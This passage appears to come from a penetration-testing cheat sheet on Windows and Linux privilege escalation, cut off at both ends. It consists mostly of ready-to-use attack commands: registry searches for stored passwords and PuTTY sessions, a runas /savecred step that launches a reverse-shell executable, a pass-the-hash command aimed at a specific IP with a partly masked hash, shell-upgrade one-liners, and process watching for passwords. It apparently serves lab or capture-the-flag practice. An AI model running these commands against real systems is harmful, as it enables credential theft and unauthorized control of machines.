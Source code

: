 ```bash
# SNMP Paramters  
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"  

# Putty  
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"  

# Search for password in registry  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s
```

## RunAs - Savedcreds

```powershell
# Displays stored credentials, looks for any optential users
cmdkey /list 
# Transfer the reverseshell
runas /savecred /user:admin C:\Temp\reverse.exe
```

## Pass the Hash

```bash
# If hashes are obtained though some means then use psexec, smbexec and obtain the shell as different user.
pth-winexe -U JEEVES/administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cbe81fe00 //10.129.26.210 cmd.exe
```

---

# Linux Privilege Escalation

- [Privesc through TAR wildcard](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)

## TTY Shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
echo 'os.system('/bin/bash')'
/bin/sh -i
/bin/bash -i
perl -e 'exec "/bin/sh";'
```

## Basic

```bash
find / -writable -type d 2>/dev/null
# Installed applications on debian system
dpkg -l 
# Listing mounted drives
cat /etc/fstab 
# Listing all available drives
lsblk 
# Listing loaded drivers
lsmod 

# Checking processes for credentials
watch -n 1 "ps -aux | grep pass" 
# Password sniffing using tcpdump
```